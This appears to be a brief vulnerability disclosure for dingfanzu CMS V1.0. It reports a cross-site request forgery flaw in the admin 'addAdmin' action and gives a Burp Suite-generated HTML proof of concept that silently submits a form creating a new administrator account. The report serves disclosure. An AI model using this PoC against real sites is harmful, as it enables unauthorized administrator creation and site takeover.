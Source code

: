 
target:https://github.com/geeeeeeeek/dingfanzu
version: V1.0

dingfanzu CMS V1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/doAdminAction.php?act=addAdmin

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/doAdminAction.php?act=addAdmin" method="POST">
      <input type="hidden" name="act" value="addAdmin" />
<input type="hidden" name="username" value="cs" />
<input type="hidden" name="password" value="123456" />
<input type="hidden" name="email" value="123%40qq.com" />
<input type="hidden" name="shopPhone" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

